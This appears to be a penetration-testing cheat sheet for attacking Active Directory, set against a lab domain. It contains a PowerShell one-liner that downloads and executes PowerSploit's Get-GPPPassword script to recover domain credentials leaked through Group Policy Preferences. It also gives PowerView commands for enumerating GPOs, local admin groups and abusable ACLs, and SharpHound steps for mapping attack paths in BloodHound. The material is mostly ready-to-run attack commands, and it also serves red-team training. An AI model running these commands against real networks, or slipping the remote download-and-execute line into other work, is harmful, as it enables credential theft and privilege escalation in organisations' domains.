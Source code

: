 ```

# Exploiting Group Policy Preferences: https://adsecurity.org/?p=2288
# Domain GPP Leaked Credentials
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Get-GPPPassword.ps1")
Get-GPPPassword

# Enumerate Local Admin Users in all computers in the domain.
# Returns all GPOs in the domain that modify the local group memberships
Get-DomainGPOLocalGroup
# Enumerate if this policy applies on this computer
Get-DomainGPO -ComputerIdentity Spiderman | ? {$_.displayname -match 'Add Local Admin Access'}

# Enumerate the Interesting ACL in the domain
Find-InterestingDomainAcl -ResolveGUIDs

# Enumerate the ACLs that applied to the user pparker
Get-DomainObjectAcl -Identity pparker -ResolveGUIDs

# Enumerate the ACLs on the same user and filter the result
Get-DomainObjectAcl -Identity pparker -ResolveGUIDs | % { echo $_.ActiveDirectoryRights,$_.ObjectAceType; Convert-ADName $_.SecurityIdentifier; echo "" } 

# Search on Specific ACL
Get-DomainObjectAcl -Identity pparker,hsaad -Domain Marvel.local -DomainController 172.31.2.112 | ? {$_.SecurityIdentifier -match "S-1-1-0"}
```

## BloodHound

You can collect plenty of data with SharpHound by simply running the binary itself with no flags set:
```
C:\> SharpHound.exe
```

SharpHound will automatically determine what domain your current user belongs to, find a domain controller for that domain, and start the “default” collection method. The default collection method will collect the following pieces of information from the domain controller:
- Security group memberships
- Domain trusts
- Abusable rights on Active Directory objects
- Group Policy links
- OU tree structure
- Several properties from computer, group and user objects
- SQL admin links

Additionally, SharpHound will attempt to collect the following information from each domain-joined Windows computer:
- The members of the local administrators, remote desktop, distributed COM, and remote management groups
- Active sessions, which SharpHound will attempt to correlate to systems where users are interactively logged on

When finished, SharpHound will create several JSON files and place them into a zip file. Drag and drop that zip file into the BloodHound GUI and the interface will take care of merging the data into the database.
